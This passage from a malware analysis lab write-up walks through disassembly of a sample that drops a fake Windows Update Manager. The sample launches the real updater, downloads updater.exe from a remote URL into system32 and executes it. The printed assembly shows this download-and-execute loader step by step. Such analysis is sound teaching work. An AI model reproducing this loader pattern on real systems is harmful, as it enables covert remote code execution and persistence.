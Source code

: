 Finally, the content of the resource is written to this new file, and it is executed:

```
0x00401311    push    0               ; lpOverlapped
0x00401313    lea     eax, [ebp+NumberOfBytesWritten]
0x00401316    push    eax             ; lpNumberOfBytesWritten
0x00401317    mov     ecx, [ebp+nNumberOfBytesToWrite]
0x0040131D    push    ecx             ; size of resource
0x0040131E    mov     edx, [ebp+lpBuffer]
0x00401321    push    edx             ; resource data
0x00401322    mov     eax, [ebp+hFile]
0x00401328    push    eax             ; hFile (empty wupdmgr.exe)
0x00401329    call    ds:WriteFile
[...]
0x0040133C    push    0               ; uCmdShow
0x0040133E    lea     edx, [ebp+fake_wupdmgr_path]
0x00401344    push    edx             ; lpCmdLine
0x00401345    call    ds:WinExec ; C:\Windows\system32\wupdmgr.exe
```

## The fake Windows Update Manager

The fake updater starts by executing the real one (from the /tmp directory):

```
0x004010A8    push    5               ; uCmdShow
0x004010AA    lea     eax, [ebp+path_to_temp_winup] ; original update manager
0x004010B0    push    eax             ; lpCmdLine: %TEMP%\winup.exe
0x004010B1    call    ds:WinExec
```

Then, it downloads a new binary from the URL `http://www.practicalmalwareanalysis.com/updater.exe` and saves it to the path `C:\Windows\system32\wupdmgrd.exe`{: .filepath}:

```
0x004010EF    push    0               ; LPBINDSTATUSCALLBACK
0x004010F1    push    0               ; DWORD
0x004010F3    lea     ecx, [ebp+path_to_sys32_wupdmgrd]
0x004010F9    push    ecx         ; C:\Windows\system32\wupdmgrd.exe
0x004010FA    push    offset URL  ; "http://www.practical"...
0x004010FF    push    0               ; LPUNKNOWN
0x00401101    call    URLDownloadToFileA
```

And finally the downloaded payload is executed:

```
0x00401117    lea     edx, [ebp+path_to_sys32_wupdmgrd]
0x0040111D    push    edx             ; lpCmdLine
0x0040111E    call    ds:WinExec      ; execute downloaded payload
```

I tried to wget the URL but it returned a 404 :(

---
EOF
